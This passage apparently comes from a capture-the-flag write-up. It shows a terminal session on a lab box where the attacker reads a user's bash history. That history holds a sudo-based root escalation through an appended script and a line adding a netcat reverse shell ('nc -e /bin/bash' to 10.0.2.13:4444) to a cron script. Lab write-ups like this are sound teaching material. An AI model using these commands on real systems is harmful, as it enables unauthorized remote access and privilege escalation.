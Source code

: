 
```bash
julia@insomnia:~$ ls -al    
ls -al
total 32
drwxrwxr-x 3 julia julia 4096 Dec 21  2020 .
drwxr-xr-x 3 root  root  4096 Dec 15  2020 ..
-rw------- 1 julia julia  379 Dec 21  2020 .bash_history
-rw-r--r-- 1 julia julia  220 Nov 30  2020 .bash_logout
-rw-r--r-- 1 julia julia 3526 Nov 30  2020 .bashrc
drwxr-xr-x 3 julia julia 4096 Dec 21  2020 .local
-rw-r--r-- 1 julia julia  807 Nov 30  2020 .profile
-rw-r--r-- 1 julia julia   86 Dec 15  2020 user.txt
julia@insomnia:~$ 

julia@insomnia:~$ cat .bash_history
cat .bash_history
clear
export TERM=xterm
clear
ls
sudo -l
cd /home/rose/
ls
ls -l
ls -la
cat user.txt
echo "/bin/bash" >> .plantbook
sudo -l
sudo -u root /bin/bash /home/rose/.plantbook
exigt
exit
ls
cd .
cd
clear
ls
cat /etc/passwd
passwd
sudo passwd
exit
cd
ls
cat user.txt
ls
cd /var/cron
ls
nano chech.sh
export TERM=xterm
nano check.sh
echo "nc -e /bin/bash 10.0.2.13 4444" >> check.sh
exit
julia@insomnia:~$
```
{: .nolineno}
Lets check `check.sh` file and its permissions 🔻
